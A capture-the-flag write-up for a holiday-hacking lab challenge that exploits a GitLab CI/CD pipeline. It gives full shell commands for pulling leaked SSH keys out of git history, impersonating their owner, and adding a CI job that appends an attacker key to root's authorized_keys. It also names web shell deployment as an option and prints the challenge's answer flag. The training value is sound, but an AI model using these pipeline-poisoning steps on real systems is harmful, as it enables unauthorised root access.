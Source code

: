 ```yaml
---
icon: simple/travisci
---
```


# Jolly CI/CD
**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [cicd terminal](https://hhc22-cicd.kringlecon.com/?&challenge=cicd&id=1a9f996e-1860-4c36-be8f-43e4fd87924d)


## Objective

!!! question "Request"
    Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

??? quote "Rippin Proudboot"
    Yes, hello, I'm Rippin Proudboot. Can I help you?<br/>
    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall see.<br/>
    The elves here introduced me to this new CI/CD technology. It seems quite efficient.<br/>
    Unfortunately, the sporcs seem to have gotten their grubby mits on it as well, along with the Elfen Ring.<br/>
    They've used CI/CD to launch a website, and the Elfen Ring to power it.<br/>
    Might you be able to check for any misconfigurations or vulnerabilities in their CI/CD pipeline?<br/>
    If you do find anything, use it to exploit the website, and get the ring back!


## Hints

??? hint "Switching Hats"
    If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

??? hint "Commiting to Mistakes"
    The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.


## Solution

??? abstract "Welcome message"
    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep the
    website up. And there is only a certain type of Christmas Magic capable of
    powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right now.

    Please, for the sake of our Holiday help us recover the Ring and save Christmas!

### Obtain write access to the Git repository

Start by cloning the repository mentioned by [Tinsel Upatree](o6.md) using `git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git` and taking a look at the commit history. Git repositories keep a permanent log of all changes, including mistakes like the one Tinsel made as they were explaining their CI/CD pipeline to us. Once the repository has been cloned, change to the `wordpress.flag.net.internal.git` folder and use `git log` to print commit message details.

![Commit history](../img/objectives/o7/commit_history.png){ class=border }

That *whoops* message seems to indicate someone messed up and tried to correct the problem with an update, so let's take a closer look at the previous commit to see exactly what files were changed. Use `git show abdea0ebb21b156c01f7533cea3b895c26198c98` to bring up the commit details.

??? info "Reading Git diff output"
    Git commit details include output from `git diff` which can be a little daunting to read at first. The syntax is meant to show exactly what information was added and removed from each file between different commits. Here's a [great write-up](https://levelup.gitconnected.com/what-is-git-diff-and-how-do-we-read-the-output-69f5b2036186) that can help to better understand the details of the `diff` syntax.

![Commit details](../img/objectives/o7/commit_details.png){ class=border }

Looks like Tinsel accidently added their private and public SSH keys to the git repository. We can use these files to impersonate Tinsel and clone a writable copy of the repository which we can commit our own changes to. Checkout the commit containing the SSH key files (line 3), create an `.ssh` folder (line 6), copy the private `.deploy` and public `.deploy.pub` SSH keys (lines 7-8), lock down the `.ssh` folder permissions (line 9), and configure a Git email and user name (lines 12-13). For the latter we use the *Author* information found in the git log commit details.

```shell linenums="1" title="Copy SSH keys and configure Git"
# Checkout the commit containing the SSH keys
cd ~/wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98

# Copy the SSH keys
mkdir ~/.ssh
cp ~/wordpress.flag.net.internal/.ssh/.deploy ~/.ssh/id_ed25519
cp ~/wordpress.flag.net.internal/.ssh/.deploy.pub ~/.ssh/id_ed25519.pub
chmod -R g-rwx,o-rwx ~/.ssh

# Configure Git
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
```

Leveraging what we learned in [Objective 5](o5.md), we can now convert the repository HTTP URL to its SSH counterpart and clone a fresh copy using `git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`.

![Re-clone](../img/objectives/o7/re-clone.png){ class=border }


### Exploit the CI/CD pipeline

Taking a closer look at the [`.gitlab-ci.yml`](../artifacts/objectives/o7/gitlab-ci.yml) configuration file shows a `deploy-job` entry which leverages `rsync` to copy any changes from *gitlab.flag.net.internal* to *wordpress.flag.net.internal* each time a commit is pushed to the Git repository.

!!! text ".gitlab-ci.yml"
    ```yaml linenums="1"
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
           --chown=www-data:www-data -atv --delete --progress
           ./ root@wordpress.flag.net.internal:/var/www/html
    ```

The ability to push changes to the Git repo gives us a few options to obtain access to *wordpress.flag.net.internal*. We could have the CI/CD automation copy over a simple [PHP web shell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and use [cURL](https://curl.se/) to call the web shell and remotely execute commands on the host. A slightly more robust solution is to leverage the automation pipeline to add our public SSH key to the *root* user's `authorized_keys` file which will grant us the ability to SSH into the web server with maximum privileges.

First, copy the newly obtained `~/.ssh/id_ed25519.pub` file to `~/wordpress.flag.net.internal/id_ed25519.pub`. The existing automation will ensure it ends up at `/var/www/html/id_ed25519.pub` on *wordpress.flag.net.internal*. Next, update the [`.gitlab-ci.yml`](../artifacts/objectives/o7/gitlab-ci-updated.yml) config file and add a new `copy-key-job` entry that initiates an SSH session from the Gitlab host to the Wordpress host and appends the contents of `/var/www/html/id_ed25519.pub` to `/root/.ssh/authorized_keys` (lines 12-17).

!!! text ".gitlab-ci.yml"
    ```yaml linenums="1" hl_lines="12-17"
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy"
           --chown=www-data:www-data -atv --delete --progress
           ./ root@wordpress.flag.net.internal:/var/www/html

    copy-key-job:
      stage: deploy
      environment: production
      script:
        - ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal
           'cat /var/www/html/id_ed25519.pub >> /root/.ssh/authorized_keys'
    ```

With the `id_ed25519.pub` file copied to our locally cloned Git repository folder and a new job entry added to `.gitlab-ci.yml` everything's in place to run our exploit. All that's left is for us to commit (lines 2-3) and push our changes (line 4) to the *gitlab.flag.net.internal* GitLab server, and wait for the updated CI/CD automation to kick off.

```shell linenums="1" title="Commit and push changes to the GitLab host"
cd ~/wordpress.flag.net.internal
git add id_ed25519.pub .gitlab-ci.yml
git commit -m 'Inconspicuous update. Please ignore!'
git push
```

It might take a few seconds, but once the CI/CD automation completes its run we should be able to remotely log in to the web server using `ssh root@wordpress.flag.net.internal`. Since we're using an interactive shell as *root* we have free reign to roam around. The flag value we need to submit on our badge can be found in the `/flag.txt` file. That [ASCII art](https://en.wikipedia.org/wiki/ASCII_art) though! :heart_eyes:

![Finding the flag](../img/objectives/o7/finding_the_flag.png){ class=border }

!!! done "Answer"
    oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT


## Response

!!! quote "Rippin Proudboot"
    How unexpected, you were actually able to help!<br/>
    Well, then I must apoligize for my dubious greeting.<br/>
    Us Flobbits can't help it sometimes, it's just in our nature.<br/>
    Right then, there are other Flobbits that need assistance further into the burrows.<br/>
    Thank you, and off you go.
